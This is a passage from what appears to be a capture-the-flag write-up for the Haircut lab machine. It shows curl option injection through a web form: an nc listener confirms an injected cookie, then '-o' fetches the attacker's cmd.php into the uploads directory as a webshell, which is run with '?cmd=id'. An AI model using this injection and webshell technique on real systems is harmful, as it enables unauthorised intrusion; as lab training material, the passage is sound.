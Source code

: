

I found a handful of other characters that seem to set off the filter:
`&|!#%[]{}`.

### Option Injection

If I'm going to have trouble running a different command, could I at
least mess with `curl` by injecting options. If I send
`http://10.10.14.15/test.php -b testcookie=testvalue`, I can watch on
`nc` to see if the cookie is included in the request. It is:



    root@kali# nc -lknvp 80
    Ncat: Version 7.80 ( https://nmap.org/ncat )
    Ncat: Listening on :::80
    Ncat: Listening on 0.0.0.0:80
    Ncat: Connection from 10.10.10.24.
    Ncat: Connection from 10.10.10.24:48118.
    GET /test.php HTTP/1.1
    Host: 10.10.14.15
    User-Agent: curl/7.47.0
    Accept: */*
    Cookie: test=test



I was successfully able to injection a `curl` option.

### Upload Webshell

Instead of a cookie, I'll use `-o` to save the file on Haircut. I can
save it into the `uploads` directory and see if it will run as PHP
there. When I submit `http://10.10.14.15/cmd.php -o uploads/0xdf.php`, I
only see the status come back:

![](/img/image-20200903165427061.png)

When I check for my shell, it's there:



    root@kali# curl http://10.10.10.24/uploads/0xdf.php?cmd=id
    uid=33(www-data) gid=33(www-data) groups=33(www-data)



### Shell
